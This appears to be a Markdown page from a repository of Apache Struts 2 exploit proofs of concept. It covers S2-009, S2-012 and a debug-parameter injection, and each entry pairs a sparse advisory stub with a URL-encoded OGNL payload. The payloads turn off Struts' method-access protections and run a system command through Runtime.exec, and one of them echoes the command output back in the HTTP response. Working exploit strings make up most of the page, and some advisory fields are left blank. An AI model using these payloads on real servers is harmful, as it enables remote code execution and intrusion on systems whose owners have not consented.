 ###### URI POC

```
?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29)
```

---

#### S02-009

> Problem:
> 
> 
> 
> Affected Software: 
> 
> Struts 2.0.0 - Struts 2.3.1.1
> 
> Solution:
> 
> Upgrade to Apache Struts version 2.3.1.2

###### POST POC

```
class.classLoader.jarPath=%28%23context["xwork.MethodAccessor.denyMethodExecution"]%3d+new+java.lang.Boolean%28false%29%2c+%23_memberAccess["allowStaticMethodAccess"]%3dtrue%2c+%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew+java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char[50000]%2c%23c.read%28%23d%29%2c%23sbtest%3d%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23sbtest.println%28%23d%29%2c%23sbtest.close%28%29%29%28meh%29&z[%28class.classLoader.jarPath%29%28%27meh%27%29]
```

---

#### S02-012 无回显

> Problem:
> 
> Affected Software: 
> 
> Struts 2.0.0 - Struts 2.3.31
> 
> Solution:
> 
> Upgrade to Apache Struts version 

###### POST POC

```
?name=%25%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29%29%7D
```

---